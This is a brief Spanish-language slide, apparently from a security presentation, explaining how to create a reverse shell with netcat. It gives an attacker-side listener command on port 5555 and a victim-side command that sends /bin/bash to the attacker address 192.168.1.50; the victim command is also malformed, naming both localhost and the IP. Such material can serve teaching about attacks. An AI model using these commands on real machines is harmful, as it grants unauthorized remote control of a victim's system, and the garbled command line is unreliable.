

# Crear una reverse Shell solo con netcat

Primero creamos el servidor en nuestro equipo ej: ( ip : 192.168.1.50 )
		 nc  -lvp 5555

Luego la máquina víctima deberá ejecutar :
	nc localhost 192.168.1.50 -e /bin/bash